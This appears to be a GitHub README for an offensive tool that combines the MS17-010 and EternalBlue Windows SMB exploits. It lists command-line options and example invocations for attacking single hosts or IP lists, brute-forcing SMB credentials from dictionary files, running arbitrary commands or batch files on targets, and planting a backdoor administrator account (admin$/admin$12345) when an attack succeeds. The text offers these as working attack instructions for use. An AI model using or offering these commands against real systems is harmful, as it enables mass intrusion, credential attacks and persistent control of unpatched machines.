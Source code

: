 # ms17010-nsa-EternalBlue
integration ms17010 and nsa-EternalBlue

Mainly integrated with nsa's Eternal Blue and ms17010 series poc. Eternal blue poc has windows 7/2008 and windows 8/2012 x64 ms17010 is win all, Windows Vista can successfully obtain system permissions anonymously, vista above requires named pipe access permissions, generally requires domain user permissions.

Usage: "usage:MyExploiter.py [options] target"

Options:

  --version             show program's version number and exit
  
  -h, --help            show this help message and exit
  
  -m MODE, --mode=MODE  attack mode 0:ms17010 attack one; 1: ms17010 attack by
  
                        file; 2:blue attack one;3:blue attack Mul;4:check
						
                        one;5:check Mul)
						
  -p PORT, --port=PORT  SMB SERVICE PORT
  
  -u USER, --user=USER  SMB USER
  
  -U USERS, --users=USERS user file,SMB USERS
						
  --pwd=password        SMB USER PASSWORD
  
  --pwds=passwords, --pwds=passwords  pwd file,EACH SMB USER PASSWORDS
						
  -t THREADS, --threads=THREADS  thread num
						
  -c COMMOND, --cmd=COMMOND  execute commond on target
						
  -b BATCH, --batch=BATCH    batch file,execute batch file on target
  
Eg: Mode 0: The ms17010 attack is automatically executed. After the attack is successful, the target machine increases the administrator account admin$/admin$12345.
  
ms17010EXP 192.168.1.10 || ms17010EXP -U user.txt --pwds=pwd.txt -t (number of threads) 2 192.168.1.10
  
Mode 1: Execute the ms17010 attack in batches. After the attack is successful, the target machine increases the administrator account admin$/admin$12345.
  
ms17010EXP -m 1 ip.txt || ms17010EXP -m 1 -U user.txt --pwds=pwd.txt -t(threads) 2 ip.txt
  
Mode 2: Execute the Eternal Blue attack, shellcode is shellcode.bin, successful target or blue screen or add user admin$/admin$12345
  
ms17010EXP -m 2 192.168.1.10
  
Mode 3, batch eternal blue attack, ms17010EXP -m 3 ip.txt
  
Mode 4, detecting whether the target machine is patched and the access status of the named pipe ms17010EXP -m 4 192.168.1.10
  
Mode 5, batch detection ms17010EXP -m 5 -t 2 --users=user.txt --pwds=pwd.txt ip.txt

Note: The last line of the username dictionary password dictionary is blank, that is, each line must have a newline.
  
						
Based on: https://github.com/worawit/MS17-010

## Credit to zzwlpx

